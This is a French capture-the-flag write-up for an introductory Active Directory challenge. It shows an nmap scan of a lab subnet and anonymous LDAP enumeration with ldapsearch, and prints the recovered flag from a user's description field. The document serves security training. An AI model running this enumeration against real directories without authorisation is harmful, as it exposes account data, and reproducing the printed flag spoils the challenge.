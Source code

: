 # The LDAP Chronicles

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Intro  
**Author**: HF47

## Description du challenge

Un administrateur a laissé une porte ouverte dans le système de gestion des identités. Explorez les profondeurs du répertoire pour découvrir des informations cachées. Le secret se trouve dans un des attributs des comptes utilisateurs. Saurez-vous le dénicher ?

## Solution

### 1. NMAP

Dans un premier temps on regarde si on à bien un service LDAP sur le réseau. 

```bash
hf47@kali> nmap 192.168.56.0/24                                                                                                         

Nmap scan report for 192.168.56.4
Host is up (0.00056s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 08:00:27:6A:C3:6D (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.56.1
Host is up (0.0000030s latency).
All 1000 scanned ports on 192.168.56.1 are in ignored states.
Not shown: 1000 closed tcp ports (reset)

Nmap done: 256 IP addresses (3 hosts up) scanned in 3.84 seconds

```

### 1. Vérification de l'accès anonyme LDAP

Nous trouvons une IP avec un service `LDAP 389/TCP`, nous savons donc que nous sommes en présence de notre AD. Vérifions l'accès anonyme LDAP :

```bash
hf47@kali> ldapsearch -x -H ldap://<LDAP_IP> -b "DC=ctfcorp,DC=local"
```

L'option `-x` utilise l'authentification simple (anonyme dans ce cas) et nous pouvons voir que la requête fonctionne, confirmant que l'accès anonyme est activé.

```bash
hf47@kali> ldapsearch -x -H ldap://192.168.56.4 -b "DC=ctfcorp,DC=local"                                                                
# extended LDIF
#
# LDAPv3
# base <DC=ctfcorp,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# ctfcorp.local
dn: DC=ctfcorp,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=ctfcorp,DC=local
[...]
```

### 2. Énumération des utilisateurs

Pour lister tous les utilisateurs avec leurs attributs :

```bash
hf47@kali> ldapsearch -x -H ldap://192.168.56.4 -b "DC=ctfcorp,DC=local" "(objectClass=user)" description department info
```

Cette commande :
- `-x` : utilise l'authentification simple
- `-H ldap://192.168.56.4` : spécifie le serveur LDAP
- `-b "DC=ctfcorp,DC=local"` : définit la base de recherche
- `"(objectClass=user)"` : filtre pour ne retourner que les utilisateurs
- `description department info` : demande ces attributs spécifiques     
### 3. Analyse des résultats

Dans les résultats, nous trouvons plusieurs utilisateurs avec différents attributs. En particulier, l'utilisateur `sarah_smith` a un attribut description intéressant :

```ldif
# sarah_smith, Users, ctfcorp.local
dn: CN=sarah_smith,CN=Users,DC=ctfcorp,DC=local
objectClass: user
description: 404CTF{Ld4P_4n0nym0us_1s_4_B4d_Pr4ct1c3!}
department: Human Resources
info: Contact for recruitment
```

### 4. Flag

Le flag est : `404CTF{Ld4P_4n0nym0us_1s_4_B4d_Pr4ct1c3!}`
